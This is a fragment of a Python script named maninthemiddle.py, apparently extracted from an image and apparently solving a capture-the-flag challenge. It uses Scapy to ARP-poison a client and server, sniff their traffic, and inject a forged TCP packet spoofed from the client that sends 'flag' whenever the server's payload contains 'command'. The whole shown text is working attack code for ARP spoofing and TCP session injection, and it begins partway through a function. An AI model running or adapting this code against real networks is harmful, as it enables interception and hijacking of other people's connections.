 ```py maninthemiddle.py
        print(f'seq {pkt[TCP].seq}, ack {pkt[TCP].ack}')
        print(payload)
        if b'pwn' in payload:
            print(payload.decode())
            _exit(0)
        if pkt[IP].src == ser_ip and b'command' in payload:
            ip = IP(src=cli_ip, dst=ser_ip)
            tcp = pkt[TCP].copy()
            del tcp[Raw]
            tcp.sport, tcp.dport = pkt[TCP].dport, pkt[TCP].sport
            tcp.seq, tcp.ack = pkt[TCP].ack, pkt[TCP].seq+len(payload)
            tcp.chksum = None
            send(
                ip / tcp / b'flag',
                iface='eth0')
        

arp_poisoning(cli_ip, ser_ip, MY_MAC),
arp_poisoning(ser_ip, cli_ip, MY_MAC)

sniff(prn=recv_in_middle, iface='eth0')
```
